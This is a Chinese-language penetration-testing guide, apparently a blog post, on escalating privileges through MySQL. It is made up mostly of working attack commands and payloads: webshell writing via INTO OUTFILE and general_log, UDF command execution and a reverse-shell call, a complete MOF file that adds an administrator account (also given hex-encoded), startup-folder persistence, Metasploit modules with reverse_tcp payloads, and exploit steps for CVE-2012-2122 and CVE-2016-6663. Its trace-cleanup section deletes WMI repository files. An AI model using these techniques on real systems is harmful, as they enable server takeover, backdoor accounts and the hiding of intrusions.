




# [](#mysql-%E6%8F%90%E6%9D%83%E6%96%B9%E6%B3%95%E6%95%B4%E7%90%86)MySQL 提权方法整理

## [](#1-initial-access)1 Initial Access

### [](#11-%E6%95%B0%E6%8D%AE%E5%BA%93%E6%9D%83%E9%99%90)1.1 数据库权限

拿到数据库操作权限的方法无外乎有以下几种：

-   3306 弱口令爆破
-   sqlmap 的 –sql-shell 模式
-   网站的数据库配置文件中拿到明文密码信息
-   mysql 1day 漏洞获取权限

### [](#12-webshell-%E6%9D%83%E9%99%90)1.2 webshell 权限

前提

-   已知网站物理路径且该路径有写权限
-   高权限数据库用户
-   secure\_file\_priv 无限制

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```mysql<br>mysql> show global variables like '%secure_file_priv%';<br>+------------------+-------+<br>\| Variable_name    \| Value \|<br>+------------------+-------+<br>\| secure_file_priv \|       \|<br>+------------------+-------+<br>``` |

> 在 MySQL 5.5 之前 secure\_file\_priv 默认是空，这个情况下可以向任意绝对路径写文件
> 
> 在 MySQL 5.5之后 secure\_file\_priv 默认是 NULL，这个情况下不可以写文件

具体原理在「SQL 注入相关」文章中已有详述，不在此赘述。

#### [](#121-into-outfile-%E5%86%99%E6%96%87%E4%BB%B6)1.2.1 into outfile 写文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select '<?php phpinfo(); ?>' into outfile '/var/www/html/info.php';<br>``` |

sqlmap 下可以执行如下操作：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>sqlmap -u "http://x.x.x.x/?id=x" --file-write="/path/to/shell.php" --file-dest="/var/www/html/test/shell.php"<br>``` |

一般情况下 Linux 系统下面权限分配比较严格，MySQL 用户一般情况下是无法直接往站点根目录写入文件的，这种情况下在 Windows 环境下成功率会很高。

#### [](#122-terminated-by-%E5%86%99%E6%96%87%E4%BB%B6)1.2.2 terminated by 写文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>?id=1 limit 1 into outfile 'C:/wamp64/www/work/webshell.php' lines terminated by '<?php phpinfo() ?>';<br>``` |

#### [](#123-general-log-%E5%86%99%E6%96%87%E4%BB%B6)1.2.3 general log 写文件

MySQL 5.0 版本以上会创建日志文件，可以通过修改日志的全局变量来 getshell

信息

`general_log` 默认关闭，开启它可以记录用户输入的每条命令，会把其保存在对应的日志文件中。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>``` | ```mysql<br>mysql> SHOW VARIABLES LIKE 'general%';<br>+------------------+---------------------------------+<br>\| Variable_name    \| Value                           \|<br>+------------------+---------------------------------+<br>\| general_log      \| OFF                             \|<br>\| general_log_file \| /var/lib/mysql/c1595d3a029a.log \|<br>+------------------+---------------------------------+<br>``` |

通过将 `general_log` 存储位置改为 web 目录。同时，向日志文件里面写入内容的话，那么就可以成功 getshell。

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>``` | ```mysql<br># 更改日志文件位置<br>set global general_log = "ON";<br>set global general_log_file='/var/www/html/info.php';<br><br># 查看当前配置<br>mysql> SHOW VARIABLES LIKE 'general%';<br>+------------------+-----------------------------+<br>\| Variable_name    \| Value                       \|<br>+------------------+-----------------------------+<br>\| general_log      \| ON                          \|<br>\| general_log_file \| /var/www/html/shell.php     \|<br>+------------------+-----------------------------+<br><br># 往日志里面写入 payload<br>select '<?php phpinfo();?>';<br>``` |

警告

文件虽然可以写入，但是该文件的权限是 MySQL 创建的 ：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```fallback<br>-rw-rw---- 1 mysql mysql 293 Feb 19 10:29 shell.php<br>``` |

访问这个 php 文件会出现 HTTP 500 的状态码，结论是 Linux 系统这种情况基本上不会成功，只有在 Windows 系统下成功率会高一些。

### [](#13-hash-%E7%A0%B4%E8%A7%A3)1.3 Hash 破解

假设存在 SQL 注入 DBA 权限，如果目标 3306 端口也是可以访问通的话，可以尝试读取 MySQL 的 Hash 来解密：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br># MySQL <= 5.6 版本<br>mysql> select host, user, password from mysql.user;<br><br># MySQL >= 5.7 版本<br>mysql > select host,user,authentication_string from mysql.user;<br>``` |


之后可以通过在线界面网站解密。

### [](#14-mysql-1day-%E6%BC%8F%E6%B4%9E)1.4 MySQL 1Day 漏洞

#### [](#141-yassl-%E7%BC%93%E5%86%B2%E5%8C%BA%E6%BA%A2%E5%87%BA)1.4.1 yaSSL 缓冲区溢出

MSF 里面已经集成好了对应的模块：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>msf6 > use exploit/windows/mysql/mysql_yassl_hello<br>msf6 > use exploit/linux/mysql/mysql_yassl_hello<br>``` |

#### [](#142-cve-2012-2122)1.4.2 CVE-2012-2122

知道用户名多次输入错误的密码会有几率可以直接成功登陆进数据库，可以循环 1000 次登陆数据库：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>for i in `seq 1 1000`; do mysql -uroot -pwrong -h 127.0.0.1 -P3306 ; done<br>``` |

在 MSF 中有对应的利用模块：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>msf6 > use auxiliary/scanner/mysql/mysql_authbypass_hashdump<br>``` |


## [](#2-udf-%E6%8F%90%E6%9D%83)2 UDF 提权

> User Defined Function - 自定义函数，是数据库功能的一种扩展。用户通过自定义函数可以实现在 MySQL 中无法方便实现的功能，其添加的新函数都可以在 SQL 语句中调用，就像调用本机函数 version() 等方便。

### [](#21-%E6%89%8B%E5%8A%A8%E5%AE%9E%E7%8E%B0)2.1 手动实现

#### [](#211-%E5%8A%A8%E6%80%81%E9%93%BE%E6%8E%A5%E5%BA%93)2.1.1 动态链接库

如果是 MySQL >= 5.1 的版本，必须把 UDF 的动态链接库文件放置于 MySQL 安装目录下的 lib\\plugin 文件夹下文件夹下才能创建自定义函数。

-   sqlmap 中的动态链接文件：

`/path/to/sqlmap/data/udf/mysql`

sqlmap 中 自带这些动态链接库为了防止被误杀都经过编码处理过，不能被直接使用。不过可以利用 sqlmap 自带的解码工具cloak.py 来解码使用，具体使用方法参考「SQL 注入相关」文章。

-   msf 中的动态链接库文件：

`/path/to/msf/embedded/framework/data/exploits/mysql`



#### [](#212-%E6%8F%92%E4%BB%B6%E7%9B%AE%E5%BD%95%E5%AD%98%E6%94%BE%E4%BD%8D%E7%BD%AE)2.1.2 插件目录存放位置

通过如下 SQL 语句来实现：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>mysql> show variables like '%plugin%';<br>+---------------+------------------------------+<br>\| Variable_name \| Value                        \|<br>+---------------+------------------------------+<br>\| plugin_dir    \| /usr/local/mysql/lib/plugin/ \|<br>+---------------+------------------------------+<br>``` |

技巧

在 windows 下可以利用 NTFS 流来创建该文件夹：

`select 233 into dumpfile 'C:\\PhpStudy\\PHPTutorial\\MySQL\\lib\\plugin::$index_allocation';`

技巧

如何找到 mysql 的安装目录：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>``` | ```sql<br>mysql> select @@basedir;<br>+------------------+<br>\| @@basedir        \|<br>+------------------+<br>\| /usr/local/mysql \|<br>+------------------+<br>``` |

#### [](#213-%E5%86%99%E5%85%A5%E5%8A%A8%E6%80%81%E9%93%BE%E6%8E%A5%E5%BA%93)2.1.3 写入动态链接库

SQL 注入且是高权限，plugin 目录可写且需要 secure\_file\_priv 无限制，MySQL 插件目录可以被 MySQL 用户写入，这个时候就可以直接使用 sqlmap 来上传动态链接库，又因为 GET 有**字节长度限制**，所以往往 POST 注入才可以执行这种攻击。

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>sqlmap -u "http://localhost/" --data="id=1" --file-write="/path/to/lib_mysqludf_sys_64.so" --file-dest="/usr/lib/mysql/plugin/udf.so"<br>``` |

如果没有注入的话，我们可以操作原生 SQL 语句，这种情况下当 secure\_file\_priv 无限制的时候，可以通过手工写文件到 plugin 目录下的：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```sql<br># 直接 SELECT 查询十六进制写入<br>SELECT 0x7f454c4602... INTO DUMPFILE '/usr/lib/mysql/plugin/udf.so';<br>``` |

这里的十六进制怎么获取呢？可以利用 MySQL 自带的 hex 函数来编码：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>``` | ```sql<br># 直接传入路径编码<br>SELECT hex(load_file('/lib_mysqludf_sys_64.so'));<br><br># 也可以将路径 hex 编码<br>SELECT hex(load_file(0x2f6c69625f6d7973716c7564665f7379735f36342e736f));<br>``` |

#### [](#214-%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C)2.1.4 命令执行

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```sql<br>CREATE FUNCTION sys_eval RETURNS STRING SONAME 'udf.dll';<br>select sys_eval('whoami');<br>``` |

#### [](#215-%E6%B8%85%E7%90%86%E7%97%95%E8%BF%B9)2.1.5 清理痕迹

删除自定义函数：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>drop function sys_eval;<br>``` |

### [](#22-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%AE%9E%E7%8E%B0)2.2 自动化实现

msf 中的模块：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>msf6 > set payload linux/x86/shell/bind_tcp<br>``` |

### [](#23-udf-shell)2.3 UDF Shell

假设目标 MySQL 在内网情况下，无法直连 MySQL 或者 MySQL 不允许外连，这个时候一些网页脚本就比较方便好用了。

#### [](#231-udfphp)2.3.1 UDF.PHP

UDF 命令执行大马：[https://github.com/echohun/tools/blob/master/大马/udf.php](https://github.com/echohun/tools/blob/master/%e5%a4%a7%e9%a9%ac/udf.php)

#### [](#232-navicat-mysql)2.3.2 Navicat MySQL

目标 MySQL 不允许外连，这个时候可以使用 Navicat 自带的 tunnel 隧道脚本上传到目标网站上：





接着连接的时候设置 HTTP 通道：


连接成功后就可以进行上述手工 UDF 提权步骤。

### [](#24-%E5%8F%8D%E5%BC%B9%E7%AB%AF%E5%8F%A3%E6%8F%90%E6%9D%83)2.4 反弹端口提权

实际上这是 UDF 提权的另一种用法，只是这里的动态链接库被定制过的，功能更多更实用一些：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>``` | ```bash<br>cmdshell        # 执行cmd<br>downloader      # 下载者,到网上下载指定文件并保存到指定目录<br>open3389        # 通用开3389终端服务,可指定端口(不改端口无需重启)<br>backshell       # 反弹Shell<br>ProcessView     # 枚举系统进程<br>KillProcess     # 终止指定进程<br>regread         # 读注册表<br>regwrite        # 写注册表<br>shut            # 关机,注销,重启<br>about           # 说明与帮助函数<br>``` |

地址：[https://github.com/Geekby/langouster\_udf](https://github.com/Geekby/langouster_udf)

首先在攻击机上开启 NC 监听，然后目标机器上导入 dll 动态链接库，然后创建自定义函数：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>CREATE FUNCTION backshell RETURNS STRING SONAME 'udf.dll';<br>``` |

直接反弹 shell ：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select backshell("IP", 4444);<br>``` |

## [](#3-mof-%E6%8F%90%E6%9D%83)3 MOF 提权

MOF 提权是一个有历史的漏洞，基本上在 Windows Server 2003 的环境下才可以成功。

### [](#31-%E5%8E%9F%E7%90%86)3.1 原理

提权的原理是 `C:/Windows/system32/wbem/mof/` 目录下的 mof 文件每隔一段时间（几秒钟左右）都会被系统执行，因为这个 MOF 里面有一部分是 VBS 脚本，所以可以利用这个 VBS 脚本来调用 CMD 来执行系统命令，如果 MySQL 有权限操作 mof 目录的话，就可以来执行任意命令了。

### [](#32-%E6%89%8B%E5%8A%A8%E5%A4%8D%E7%8E%B0)3.2 手动复现

#### [](#321-%E4%B8%8A%E4%BC%A0-mof-%E6%96%87%E4%BB%B6)3.2.1 上传 mof 文件

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>15<br>16<br>17<br>18<br>19<br>20<br>21<br>22<br>23<br>24<br>25<br>``` | ```fallback<br>#pragma namespace("\\\\.\\root\\subscription") <br><br>instance of __EventFilter as $EventFilter <br>{ <br>    EventNamespace = "Root\\Cimv2"; <br>    Name  = "filtP2"; <br>    Query = "Select * From __InstanceModificationEvent " <br>            "Where TargetInstance Isa \"Win32_LocalTime\" " <br>            "And TargetInstance.Second = 5"; <br>    QueryLanguage = "WQL"; <br>}; <br><br>instance of ActiveScriptEventConsumer as $Consumer <br>{ <br>    Name = "consPCSV2"; <br>    ScriptingEngine = "JScript"; <br>    ScriptText = <br>"var WSH = new ActiveXObject(\"WScript.Shell\")\nWSH.run(\"net.exe user hacker P@ssw0rd /add\")\nWSH.run(\"net.exe localgroup administrators hacker /add\")"; <br>}; <br><br>instance of __FilterToConsumerBinding <br>{ <br>    Consumer   = $Consumer; <br>    Filter = $EventFilter; <br>};<br>``` |

利用 MySQL 写文件的特性将这个 MOF 文件导入到 `C:/Windows/system32/wbem/mof/` 目录下，依然采用上述编码的方式：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select 0x23707261676D61206E616D65737061636528225C5C5C5C2E5C5C726F6F745C5C737562736372697074696F6E2229200A0A696E7374616E6365206F66205F5F4576656E7446696C74657220617320244576656E7446696C746572200A7B200A202020204576656E744E616D657370616365203D2022526F6F745C5C43696D7632223B200A202020204E616D6520203D202266696C745032223B200A202020205175657279203D202253656C656374202A2046726F6D205F5F496E7374616E63654D6F64696669636174696F6E4576656E742022200A20202020202020202020202022576865726520546172676574496E7374616E636520497361205C2257696E33325F4C6F63616C54696D655C222022200A20202020202020202020202022416E6420546172676574496E7374616E63652E5365636F6E64203D2035223B200A2020202051756572794C616E6775616765203D202257514C223B200A7D3B200A0A696E7374616E6365206F66204163746976655363726970744576656E74436F6E73756D65722061732024436F6E73756D6572200A7B200A202020204E616D65203D2022636F6E735043535632223B200A20202020536372697074696E67456E67696E65203D20224A536372697074223B200A2020202053637269707454657874203D200A2276617220575348203D206E657720416374697665584F626A656374285C22575363726970742E5368656C6C5C22295C6E5753482E72756E285C226E65742E6578652075736572206861636B6572205040737377307264202F6164645C22295C6E5753482E72756E285C226E65742E657865206C6F63616C67726F75702061646D696E6973747261746F7273206861636B6572202F6164645C2229223B200A7D3B200A0A696E7374616E6365206F66205F5F46696C746572546F436F6E73756D657242696E64696E67200A7B200A20202020436F6E73756D65722020203D2024436F6E73756D65723B200A2020202046696C746572203D20244576656E7446696C7465723B200A7D3B0A into dumpfile "C:/windows/system32/wbem/mof/test.mof";<br>``` |

#### [](#322-%E7%97%95%E8%BF%B9%E6%B8%85%E7%90%86)3.2.2 痕迹清理

因为每隔几分钟时间又会重新执行添加用户的命令，所以想要清理痕迹得先暂时关闭 winmgmt 服务再删除相关 mof 文件，这个时候再删除用户才会有效果：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>12<br>13<br>14<br>``` | ```bash<br># 停止 winmgmt 服务<br>net stop winmgmt<br><br># 删除 Repository 文件夹<br>rmdir /s /q C:\Windows\system32\wbem\Repository\<br><br># 手动删除 mof 文件<br>del C:\Windows\system32\wbem\mof\good\test.mof /F /S<br><br># 删除创建的用户<br>net user hacker /delete<br><br># 重新启动服务<br>net start winmgmt<br>``` |

### [](#33-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%AE%9E%E7%8E%B0)3.3 自动化实现

MSF 里面自带了 MOF 提权模块：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>3<br>4<br>5<br>6<br>7<br>8<br>9<br>``` | ```bash<br>msf6 > use exploit/windows/mysql/mysql_mof<br># 设置好自己的 payload<br>msf6 > set payload windows/meterpreter/reverse_tcp<br><br># 设置目标 MySQL 的基础信息<br>msf6 > set rhosts 192.168.102.1<br>msf6 > set username root<br>msf6 > set password root<br>msf6 > run<br>``` |

## [](#4-%E5%90%AF%E5%8A%A8%E9%A1%B9%E6%8F%90%E6%9D%83)4 启动项提权

这种提权也常见于 Windows 环境下，当 Windows 的启动项可以被 MySQL 写入的时候可以使用 MySQL 将自定义脚本导入到启动项中，这个脚本会在用户登录、开机、关机的时候自动运行。

### [](#41-%E5%90%AF%E5%8A%A8%E9%A1%B9%E8%B7%AF%E5%BE%84)4.1 启动项路径

-   **Windows Server 2003** 的启动项路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br> 1<br> 2<br> 3<br> 4<br> 5<br> 6<br> 7<br> 8<br> 9<br>10<br>11<br>``` | ```bash<br># 中文系统<br>C:\Documents and Settings\Administrator\「开始」菜单\程序\启动<br>C:\Documents and Settings\All Users\「开始」菜单\程序\启动<br><br># 英文系统<br>C:\Documents and Settings\Administrator\Start Menu\Programs\Startup<br>C:\Documents and Settings\All Users\Start Menu\Programs\Startup<br><br># 开关机项 需要自己建立对应文件夹<br>C:\WINDOWS\system32\GroupPolicy\Machine\Scripts\Startup<br>C:\WINDOWS\system32\GroupPolicy\Machine\Scripts\Shutdown<br>``` |

-   **Windows Server 2008** 的启动项路径：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br>C:\Users\Administrator\AppData\Roaming\Microsoft\Windows\Start Menu\Programs\Startup<br>C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup<br>``` |

### [](#42-%E5%86%99%E5%85%A5%E6%96%87%E4%BB%B6)4.2 写入文件

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```sql<br>select 0x... into dumpfile "C:\\ProgramData\\Microsoft\\Windows\\Start Menu\\Programs\\Startup\\test.vbs";<br>``` |

写入成功的时候就等待系统用户重新登录，登录成功的话，我们的自定义脚本也就会被执行。

### [](#42-msf-%E8%87%AA%E5%8A%A8%E5%8C%96%E5%AE%9E%E7%8E%B0)4.2 MSF 自动化实现

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>msf6 > use exploit/windows/mysql/mysql_start_up<br>``` |

信息

STARTUP\_FOLDER 启动项文件夹得自己根据实际的目标系统来进行调整



## [](#4-cve-2016-6663)4 CVE-2016-6663

### [](#41-%E5%8E%9F%E7%90%86)4.1 原理

竞争条件提权漏洞，一个拥有 CREATE/INSERT/SELECT 低权限的账户提权成功后可以系统用户身份执行任意代码，提权的用户为 mysql 用户，概括一下就是将低权限的 www-data 权限提升为 mysql 权限

条件：

1.  Getshell 拿到 www-data 权限
2.  拿到 CREATE/INSERT/SELECT 低权限的 MySQL 账户
3.  关键提取步骤需要在交互环境下，所以需要反弹 shell
4.  MySQL 版本需要 <= 5.5.51 或 5.6.x <= 5.6.32 或 5.7.x <= 5.7.14 或 8.x < 8.0.1
5.  MariaDB 版本需要 <= 5.5.51 或 10.0.x <= 10.0.27 或 10.1.x <= 10.1.17

Exp：[https://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html](https://legalhackers.com/advisories/MySQL-Maria-Percona-PrivEscRace-CVE-2016-6663-5616-Exploit.html)

在反弹的 shell 中，编译 payload：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>``` | ```bash<br>gcc mysql-privesc-race.c -o mysql-privesc-race -I/usr/include/mysql -lmysqlclient<br>``` |

执行 EXP 提权：

|     |     |     |
| --- | --- | --- |
| ```plain<br>1<br>2<br>``` | ```bash<br># ./mysql-privesc-race 数据库用户名 密码 数据库地址 数据库<br>./mysql-privesc-race test 123456 localhost test<br>``` |

参考：

-   [http://next.uuzdaisuki.com/2018/07/02/mysql数据库提权总结/](http://next.uuzdaisuki.com/2018/07/02/mysql%e6%95%b0%e6%8d%ae%e5%ba%93%e6%8f%90%e6%9d%83%e6%80%bb%e7%bb%93/)
    
-   [https://www.sqlsec.com/2020/11/mysql.html](https://www.sqlsec.com/2020/11/mysql.html)
    
-   [https://xz.aliyun.com/t/1122](https://xz.aliyun.com/t/1122)
    
-   [https://blog.csdn.net/kclax/article/details/91515105?utm\_medium=distribute.pc\_relevant.none-task-blog-title-7&spm=1001.2101.3001.4242](https://blog.csdn.net/kclax/article/details/91515105?utm_medium=distribute.pc_relevant.none-task-blog-title-7&spm=1001.2101.3001.4242)
